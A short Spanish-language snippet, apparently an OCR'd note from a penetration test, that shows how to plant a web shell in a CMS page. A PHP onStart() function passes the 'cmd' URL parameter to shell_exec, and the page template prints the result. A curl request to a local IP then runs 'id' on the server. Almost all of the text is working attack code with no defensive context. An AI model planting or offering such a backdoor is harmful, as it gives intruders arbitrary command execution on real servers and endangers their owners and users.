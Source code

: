 
CMS -> Pages -> Home -> Code
```
function onStart()
{
	$this->page["evilVar"] = shell_exec($_GET['cmd']);
}
```

CMS -> Pages -> Home -> Markup
```
{{ this.page.evilVar }}
````

Ejecutar comandos
```
curl 'http://192.168.1.18/?cmd=id' 2>&1 | grep uid
```